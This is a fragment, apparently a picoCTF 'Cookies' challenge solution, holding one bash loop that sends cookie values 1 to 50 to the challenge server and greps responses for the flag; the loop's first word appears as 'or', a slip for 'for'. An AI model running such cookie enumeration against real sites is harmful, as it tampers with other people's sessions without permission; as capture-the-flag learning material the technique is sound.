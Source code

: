 # Cookies 

```bash
or i in {1..50};do  echo "$i"; curl --silent http://mercury.picoctf.net:21485/check -b"name=$i" | grep "Flag"; done

```
